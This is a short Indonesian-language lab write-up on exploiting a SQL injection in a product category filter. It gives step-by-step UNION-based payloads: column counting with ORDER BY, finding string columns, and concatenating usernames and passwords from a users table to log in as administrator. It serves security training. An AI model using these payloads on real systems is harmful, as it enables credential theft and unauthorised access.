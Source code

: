 # Overview
SQLI vuln di bagian product category filter.

Hint:
- menggunakan UNION
- lain kolom `username` dan `password` di tabel `users`

Goals:
- retrieve data dan login sebagai `administrator`

# Analisa
Cek dengan `'` apakah website vuln terhadap SQLI

Selanjutnya cek kolom yang digunakan oleh original query, gunakan payload `' order by n--`
- `' order by 1--` tidak ada perubahan
- `' order by 2--` terdapat perubahan urutan
- `' order by 3--` mendapat eror
Total kolom ada 2

Selanjutnya cek kolom yang dapat hold data string dengan query `' union select 'a',null--`

Karena hanya terdapat 1 kolom yang dapat hold string, maka kita perlu mengeluarkan string `username` dan `password` tersebut dalam 1 kolom dengan cara concatenate. Gunakan payload : `'union select null, kolom from tabel--`
- `' union select null, username from users--`
- `' union select null, password from users--`
Untuk melakukan concatenate kita dapat menggunakan `||` pipe untuk menyambungkannya, jadi payloadnya adalah:
- `' union select null,username || ':' || password from users--`
